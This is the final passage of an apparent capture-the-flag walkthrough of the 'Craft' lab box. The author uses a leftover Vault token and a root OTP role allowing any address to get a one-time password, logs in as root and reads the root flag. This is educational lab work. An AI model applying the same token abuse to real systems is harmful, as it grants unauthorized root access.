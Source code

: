     # set up vault secrets backend

    vault secrets enable ssh

    vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0

What I understood from that script that Gilfoyle is using vault to generate OTP for root SSH. I did some searching on that and found [This](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html).

Create OTP for SSH by the help of the above website and the role from secrets.sh (No need to login to vault because token is already in .vault-token file in Gilfoyle directory)

    gilfoyle@craft:~$ vault ssh -role root_otp -mode otp root@127.0.0.1
    Vault could not locate "sshpass". The OTP code for the session is displayed
    below. Enter this code in the SSH password prompt. If you install sshpass,
    Vault can automatically perform this step for you.
    OTP for the session is: 8808cb25-03b3-c207-6d7f-5bafd6ce4b82


      .   *   ..  . *  *
    *  * @()Ooc()*   o  .
        (Q@*0CG*O()  ___                                                         
       |\_________/|/ _ \                                                        
       |  |  |  |  | / | |                                                       
       |  |  |  |  | | | |                                                       
       |  |  |  |  | | | |                                                       
       |  |  |  |  | | | |                                                       
       |  |  |  |  | | | |                                                       
       |  |  |  |  | \_| |                                                       
       |  |  |  |  |\___/                                                        
       |\_|__|__|_/|                                                             
        \_________/                                                              



    Password:
    Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Aug 27 04:53:14 2019
    root@craft:# cat root.txt
    831d6...

**That was Craft Box. Hope you liked it! and Thanks for reading.**
